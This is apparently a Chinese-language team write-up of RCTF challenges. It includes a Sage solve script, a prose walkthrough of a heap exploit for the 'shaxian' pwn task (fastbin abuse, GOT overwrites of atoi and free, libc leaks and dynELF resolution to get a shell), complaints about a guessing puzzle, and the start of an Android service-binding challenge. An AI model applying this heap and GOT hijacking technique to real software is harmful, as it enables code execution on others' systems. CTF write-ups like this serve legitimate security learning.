[0 0 0 1 1 0 0 0 1 1 0 1 1 0 0 1]
[0 0 0 1 0 1 0 0 0 0 0 1 1 1 1 1]
[0 1 0 1 1 0 0 0 0 1 1 1 1 0 0 1]
[1 0 0 1 1 1 1 0 1 0 0 1 0 1 0 1]
[0 0 0 0 0 0 1 0 1 1 1 1 1 0 0 1]

sage: flag = user_expected \ flag_expected

sage: %cpaste
Pasting code; enter '--' alone on the line to stop or use Ctrl-D.
:cur = 0x1490
:ans = 'RCTF{d4iDaiwo_'
:need = [int(''.join(map(lambda a: chr(ord('0')+a), list(x)[::-1])),2) for x in list(flag)]
:for x in need:
:       t = (x >> 8) | ((x & 0xFF) << 8)
:       ans += hex(t ^^ cur).decode('hex')
:       cur = t
:ans += '}'
:print ans
```

## survey (SURVEY 20)

不知道是谁偷偷就给填了！！！

## shaxian (PWN 400)

读入 name 可以覆盖到结构体的 next，于是可以 free 任何地方。

然后鉴于只能在 malloc 完之后立即读入，于是需要控制 malloc 的返回值，
果断 fastbin，然后使分配出来的正好是 bss 上那个指针（后面叫 gptr）前面一点，
然后 malloc 完后，读入 name 时，覆盖掉 gptr，这样接下来读入 count 的时候就是一次任意写（改 atoi got 表控制程序流）。

填得时候稍微注意下，把分配出来地址 +0x8 的地方指回自己，从此 malloc 结果都会是那个地址不会变，于是可以无限次数任意写。

然后信息泄漏的话，直接改掉 next 后 review 下即可，但是这样要求指过去后，后面 next 位置要是 0，否则泄漏完容易崩溃。

泄漏 got 表后尝试使用各种 libc，libcdb 也搜过，都未遂（这是自己编译的 libc 的节奏么？）。

于是想了想，在 submit 的那个循环里面：

```c
now = gptr;
if ( tot )
{
    while ( now )
    {
        printlog(now);
        ptr = now;
        now = now->next;
        free(ptr);
    }
    result = puts("Your order has been submitted!");
}
```

这里 printlog 可以用来泄漏信息，然后为了不崩溃，我们只要改掉 free 的 got 表，把程序强行跳转到读选项前面，开始新的一轮选择。
当然这样是有副作用的，破坏了栈，会无限增长，不过我们不比太在意。

至此，有了几乎无限次任意可读地址内存泄漏，就可以 dynELF 找出 system 和 puts 的偏移，然后就利用之前那个劫持程序流就可以拿到 shell。

PS：这里泄漏便宜和拿 shell 可以用两个程序，反正偏移永远不会变，所以哪怕直接暴力跑 N 遍强行 dump 所有内存也是可以的，只是跑的久点而已。

## QQ (MISC 200)

这题脑洞有多大真是怎么吐槽都不觉得过，最后一小时的时候，
为了保准不被 217 绝杀（因为感觉很可能他们有藏 flag，而我们却没有任何底牌了，完全就是任人鱼肉的感觉），这题是我们认定的希望，
于是最后又再次围了一群人上去脑洞这题，然而尝试遍各种我们自己都不信的方法，终究没能对上出题人的脑电波（求众筹砍出题人，往死里砍！）。

最后比赛结束后才知道，竟然是用 颜色值 * 宽度 求和，然后就得到 QQ，看看资料就有 flag。



这题不得不说很佩服 217 的脑洞能力，这种 xjb 乱猜的题也能那么快猜出来……

## Load (MOBILE 350)

这题真是想到就心酸……

本来在 QQ 那题 YY 不出来之后，已经打算听天由命了（诸葛老师还提前表示比赛结束，浪费好多感情 `(>_>)`），
然而最后三分钟的时候，某人表示拿到 android 350 的一个 key 不知道怎么用，
然后立刻被我们团团围住，然后给了个方法立刻试了下，就看到手机突然弹出个网页（想来十有八九上面就直接写着个 flag），
然而由于之前在实验室干活的时候，配置了 burp 的代理一直没有关，导致网页没能打开，
于是……

就在我们激动不已的时候，一个悲剧悄然来袭。
某人赶忙拿起手机，就在尝试去关 burp 代理的时候，屏幕一黑！
我去，数据线由于动作太大断开了一下，这个手机电池坏了的有木有！！！

赶忙从旁边又拿了个安卓手机过来，想要补救，旁边电脑都打开提交页面准备好了，
然而由于太急，手忙脚乱，刚开始连题目给的 apk 都忘记装了。
然后就听到旁边某人喊了一句，217 反超了，然后不解释就更乱了，于是终究没能反绝杀……
感觉这就是命吧，都是太激动惹的祸，想来以后也不太能再有这么好的机会了……

吐槽完毕，下面进入正题：

首先查看 AndroidManifest.xml

唯一一个被 permission 保护的服务



Permission 没有被保护



使用 permission bindService




